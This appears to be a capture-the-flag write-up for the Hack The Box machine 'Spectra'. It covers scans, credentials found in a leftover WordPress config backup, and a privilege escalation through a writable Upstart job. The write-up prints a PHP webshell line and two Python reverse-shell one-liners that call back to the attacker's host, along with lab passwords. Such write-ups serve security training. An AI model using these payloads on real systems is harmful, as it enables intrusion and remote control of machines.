








# Spectra
## Enumeration
- ```Nmap```
```
└─$ nmap -sC -sV -Pn 10.10.10.229
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-05 12:59 BST
Nmap scan report for 10.10.10.229 (10.10.10.229)
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.25 seconds

```

- Web server
  - The domain: `spectra.htb`





- If we check `/testing`
  - We see the config file `wp-config.php` which runs `php` in the background if we click it
  - We see another config file `wp-config.php.save`, which wascreated  by `nano`
    - `...nano will try to dump the buffer into an emergency file. This will happen mainly if nano receives a SIGHUP or SIGTERM or runs out of memory. It will write the buffer into a file named nano.save if the buffer didn’t have a name already, or will add a “.save” suffix to the current filename...`


- Let's save the creds
  - `devtest:devteam01`
  - Any try to connect to `MySQL`
  - But no success


- We saw that the website on `/main` was a `WordPress` site
  - So let's launch a `wpscan`

```
┌──(kali㉿kali)-[~/Documents/tasks]
└─$ wpscan --url http://10.10.10.229/main
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
^C^C^C^C^C^C
Scan Aborted: Canceled by User

┌──(kali㉿kali)-[~/Documents/tasks]
└─$ wpscan --url http://spectra.htb/main -e ap,t,tt,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://spectra.htb/main/ [10.10.10.229]
[+] Started: Sat Aug  5 13:17:25 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.17.4
 |  - X-Powered-By: PHP/5.6.40
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://spectra.htb/main/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://spectra.htb/main/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://spectra.htb/main/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://spectra.htb/main/?feed=rss2, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://spectra.htb/main/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://spectra.htb/main/wp-content/themes/twentytwenty/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://spectra.htb/main/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.2
 | Style URL: http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:21 <============================================================================================================================================================> (399 / 399) 100.00% Time: 00:00:21
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentynineteen
 | Location: http://spectra.htb/main/wp-content/themes/twentynineteen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://spectra.htb/main/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.5
 | Style URL: http://spectra.htb/main/wp-content/themes/twentynineteen/style.css
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentynineteen/, status: 200
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentynineteen/style.css, Match: 'Version: 1.5'

[+] twentyseventeen
 | Location: http://spectra.htb/main/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://spectra.htb/main/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://spectra.htb/main/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentyseventeen/, status: 200
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 2.3'

[+] twentytwenty
 | Location: http://spectra.htb/main/wp-content/themes/twentytwenty/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://spectra.htb/main/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.2
 | Style URL: http://spectra.htb/main/wp-content/themes/twentytwenty/style.css
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentytwenty/, status: 200
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentytwenty/style.css, Match: 'Version: 1.2'

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:01:51 <==========================================================================================================================================================> (2575 / 2575) 100.00% Time: 00:01:51

[i] No Timthumbs Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:11 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:11

[i] User(s) Identified:

[+] administrator
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Aug  5 13:20:06 2023
[+] Requests Done: 3035
[+] Cached Requests: 17
[+] Data Sent: 859.413 KB
[+] Data Received: 1.155 MB
[+] Memory used: 286.766 MB
[+] Elapsed time: 00:02:40
```
## Foothold
- We have `administrator` user
  - If we try the password that we found before, we can access `wp-admin`
  - `Administrator:devteam01`



- Let's edit installed `plugins` and get `RCE`
  - `system($_REQUEST["cmd"]);`




- Let's get reverse shell
  - Url encode the following payload: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
  - And we have our foothold





## User
- So we have a `Chromium OS`
```
nginx@spectra /home $ cat /etc/*release
BUILD_NUMBER=22
CHROMEOVER_BUILD_COMMIT=829e617e7b8467c355f9bd61f87835bfeb0da547
CHROMIUMOS_MANIFEST_COMMIT=38c4f6ca60a47f7fabf0fcd5d6feabf349e3f002
CHROMIUM_BROWSER_COMMIT=ef24d0b3349c2324d18a3f32bc35d14e796aeddc
PIPELINE_TAG=prod
USE_FLAGS=-cros-debug beerover virtualbox
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```

- We have a `autologin.conf.orig` file in `/opt`
  - If we check it, we see that it's a script
  - It reads password from the files `/mnt/stateful_partition/etc/autologin/passwd` and from `/etc/autologin/passwd` 
  - Only `/etc/autologin/passwd` exists, and if we open it we see the potential password `SummerHereWeCome!!`


- Let's `ssh`
  - We can use `crackmapexec` to test each connection
  - But since I saw `user.txt` in `katie`'s folder, I just guessed it and got access


## Root
- Check `sudo` rights
  - We have `/sbin/initctl`
  - https://linux.die.net/man/8/initctl
    - `initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon`
  - https://linux.die.net/man/8/init
    - `init is the parent of all processes on the system, it is executed by the kernel and is responsible for starting all other processes`


- If we check `katie`'s group
  - We see that she's a member of `developers` group
```
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

- Let's search for files owned by `developers`
  - So we see the that `developers` have several `test` jobs inside `/etc/init` directory
  - So we can try and modify one of them



- Let's edit one of those `.conf` files
  - Add `exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
  - Launch a listener and `sudo initctl start test`
  - Rooted


